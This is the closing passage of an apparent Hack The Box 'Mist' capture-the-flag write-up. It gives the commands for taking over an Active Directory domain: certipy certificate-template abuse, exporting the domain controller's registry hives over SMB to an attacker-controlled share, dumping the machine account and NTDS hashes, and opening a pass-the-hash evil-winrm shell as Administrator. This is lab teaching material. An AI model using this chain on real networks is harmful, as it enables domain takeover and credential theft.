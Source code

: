 So let's start : 

```bash
proxychains certipy req -u svc_cabackup@mist.htb -hashes :c9[...]b64 -dc-ip 192.168.100.100 -target DC01 -ca 'mist-DC01-CA' -template 'ManagerAuthentication' -upn "CA Backup" -key-size 4096

[*] Saved certificate and private key to 'svc_cabackup.pfx'

proxychains certipy auth -pfx svc_cabackup.pfx -domain mist.htb -dns-tcp -dc-ip 192.168.100.100

export KRB5CCNAME=svc_cabackup.ccache

proxychains certipy req -u 'svc_cabackup@mist.htb' -k -no-pass -dc-ip dc01.mist.htb -target dc01.mist.htb -ns 192.168.100.100 -template 'BackupSvcAuthentication' -ca 'mist-DC01-CA' -key-size 4096

proxychains certipy auth -pfx svc_cabackup.pfx -domain mist.htb -dns-tcp -dc-ip 192.168.100.100

export KRB5CCNAME=svc_cabackup.ccache
```
And now we can use ```impacket-reg``` to get the hash of the DC

```bash
smbserver.py -smb2support toto .

proxychains reg.py 'mist.htb/svc_cabackup@dc01.mist.htb' -k -no-pass -dc-ip 192.168.100.100 backup -o '\\10.10.14.7\toto\'

secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL

$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:e7[...]60
```
And now dump ntds to get the hash of Administrator

```bash
proxychains -q nxc smb 192.168.100.100 -u 'DC01$' -H 'e7[...]60' --ntds

SMB 192.168.100.100 445 DC01 Administrator:500:aad3b435b51404eeaad3b435b51404ee:b4[...]85:::

proxychains -q evil-winrm -u Administrator -H 'b4[...]85' -i 192.168.100.100
```
Nice !! if u have any questions you can dm me on [Instagram](http://instagram.com/eliott.la) or on discord at 'ethicxz.'





